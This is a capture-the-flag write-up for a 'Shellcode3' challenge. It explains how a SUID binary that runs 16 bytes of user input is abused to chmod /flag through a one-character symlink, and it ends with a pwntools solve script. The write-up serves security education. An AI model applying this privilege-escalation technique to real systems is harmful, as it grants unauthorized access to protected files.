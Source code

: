 # Shellcode3 writeup

Author: `misi`

---
In this challenge we are given a shell. The flag file is located at /flag, and the challenge binary is in /challenge. By running `ls -la /flag /challenge/shellcode`, we can see the privileges of each file.

<img width="557" height="123" alt="2" src="https://github.com/user-attachments/assets/4da74245-4adf-4055-9cea-75b054c1c8e0" />

Both /flag and /challenge/shellcode are owned by the user `owner`.  
Our current user (`ctf`) does not have permission to read /flag.  
However, the binary /challenge/shellcode has the SUID bit set, which means it runs with the privileges of its owner (owner). This allows us to potentially use it to access /flag.

### Reversing
Start by doing a checksec on the given binary to see what security features is enabled.

<img width="605" height="138" alt="1" src="https://github.com/user-attachments/assets/d03914c1-5411-46a0-af61-8f3f0bc3632f" />

- PIE is enabled
- There is no stack canary found
- The binary is not stripped
- NX enabled

I use ghidra to decompile the given binary  
main() is the only function we need to reverse.  

<img width="704" height="756" alt="3" src="https://github.com/user-attachments/assets/3dfa6d68-c3f2-4e60-b2fe-2ba654547fa0" />

main() will print out some information, do a mmap, making some memory region executable, and then read in 0x10 (16 in decimal) bytes into the memory region. Finally it will execute the input you sent in, before it returns.


### Exploitation
Since the shellcode can be at most be 16 bytes long, it is not be possible to open and read the flag directly with shellcode.

<img width="657" height="152" alt="4" src="https://github.com/user-attachments/assets/09e0f660-dc72-4c87-afc4-7ffa7a5db6b4" />

By reading at the assembly code executed before your shellcode runs, you will see that rsi will hold 0x1ed (0o755 in octal). Saving us a few bytes in the shellcode if we want execute syscalls such as chmod.  
Because there are so few bytes available, it will not be possible to run chmod on "/flag", since the filename is too long. However, you do have enough bytes to run chmod on a file with a one-character name.  
By creating a symbolic link to /flag with a single character name such as "x" (`ln -s /flag x`), makes it possible to run chmod on the symlink, which will change the permissions of /flag.  
After executing the shellcode, you can run `cat /flag` to print the flag to the terminal.  

Here is the final solve script:  
```py
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

p = process("/challenge/shellcode")

asm_code = asm ("""
        mov eax, 90
        lea rdi, [rip + flag]
        syscall
        flag:
        .string "x"
        """)

# print(len(asm_code))

p.recvuntil("shellcode: ")
p.sendline(asm_code)
p.interactive()
```

